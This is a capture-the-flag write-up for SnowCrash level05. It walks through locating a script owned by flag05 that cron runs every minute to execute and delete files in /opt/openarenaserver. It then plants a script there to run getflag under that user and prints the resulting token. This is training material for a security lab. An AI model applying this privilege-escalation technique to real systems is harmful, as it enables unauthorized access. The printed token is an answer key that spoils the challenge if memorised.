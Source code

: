 List all file owned by flag05

> level05@SnowCrash:~$ find / -user flag05 2>/dev/null
> /usr/sbin/openarenaserver
> /rofs/usr/sbin/openarenaserver
> level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done

It is a script that execute every file in `/opt/openarenaserver/` and delete them
It is ran every minute
We just need to add a script in there to be executed by the flag05 user

```
#!/bin/bash

getflag > /tmp/flag
```
`chmod +x <your file>`
place it in `/opt/openarenaserver/` and wait the script to be executed

> Check flag.Here is your token : viuaaale9huek52boumoomioc

